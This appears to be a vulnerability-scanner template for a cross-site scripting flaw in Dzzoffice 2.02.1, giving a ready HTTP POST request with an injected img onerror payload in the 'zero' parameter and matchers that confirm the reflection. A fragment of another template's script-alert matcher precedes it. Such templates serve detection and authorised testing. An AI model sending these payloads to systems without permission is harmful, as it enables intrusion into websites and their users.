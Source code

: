 **Type - word**

- words
  1. \<script>alert(31337)\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# Dzzoffice 2.02.1 - Cross-Site Scripting

## Description

- Dzzoffice 2.02.1_SC_UTF8 contains a cross-site scripting vulnerability which allows remote attackers to inject arbitrary web script or HTML via the zero parameter.

- severity - high
- tags - dzzoffice,xss

## Requests

### Step - 1

```
POST /index.php?mod=system&op=orgtree&do=orgtree HTTP/1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

id=%23&nouser=0&moderator=0&zero=<img+src=x+onerror=alert(document.domain)>&stype=0&range=0&showjob=0

```

### Matchers

**Type - word**

- words
  1. "text":"\<img src=x onerror=alert(document.domain)>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---